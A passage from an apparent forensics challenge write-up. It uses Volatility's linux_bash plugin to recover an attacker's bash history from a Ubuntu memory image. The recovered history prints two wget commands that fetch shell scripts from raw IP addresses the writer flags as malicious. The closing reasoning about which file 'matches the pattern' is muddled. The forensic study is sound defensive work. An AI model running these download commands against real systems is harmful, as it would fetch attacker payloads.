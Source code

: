 Answer: 00:22:48:26:3b:16

## Q2. Based on Bash history. The attacker downloaded the SH script. What is the name of the file?
The linux_bash plugin shows the bash history. Grepping for .sh downloads:
# python2 vol.py -f ubuntu.20211208.mem --profile=LinuxUbuntu-azurex64 linux_bash | grep -E '(wget |curl ).*\.sh'
4205 bash 2021-12-08 16:12:31 UTC+0000 wget http://88.218.227.141/wget.sh
4205 bash 2021-12-08 16:12:31 UTC+0000 wget http://185.191.32.198/unk.sh
Both IPs are flagged as malicious on VirusTotal. Of the files, only unk.sh matches the pattern, suggesting the attacker downloaded at least one malicious script via bash.

